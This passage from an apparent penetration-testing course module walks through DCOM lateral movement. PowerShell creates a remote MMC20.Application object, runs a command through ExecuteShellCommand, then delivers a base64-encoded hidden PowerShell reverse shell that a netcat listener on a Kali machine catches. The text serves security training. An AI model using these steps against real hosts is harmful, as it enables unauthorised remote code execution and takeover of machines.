 From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the *GetTypeFromProgID* method.

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```

> Listing 29 - Remotely Instantiating the MMC Application object

Once the application object is saved into the *$dcom* variable, we can pass the required argument to the application via the [**ExecuteShellCommand**](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand) method. The method accepts four parameters: **Command**, **Directory**, **Parameters**, and **WindowState**. We're only interested in the first and third parameters, which will be populated with **cmd** and **/c calc**, respectively.

```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

> Listing 30 - Executing a command on the remote DCOM object

Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app.

Because it's within Session 0, we can verify the calculator app is running with **tasklist** and filtering out the output with **findstr**.

```
C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe                 4764 Services                   0     12,132 K
```

> Listing 31 - Verifying that calculator is running on FILES04

We can now improve our craft by extending this attack to a full reverse shell like what we did in the *WMI and WinRM* section earlier in this Module.

Having generated the base64 encoded reverse shell with our Python script, we can replace our DCOM payload with it.

```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

> Listing 32 - Adding a reverse-shell as a DCOM payload on CLIENT74

Switching to our Kali machine, we can verify any incoming connections on the listener that we simultaneously set up.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname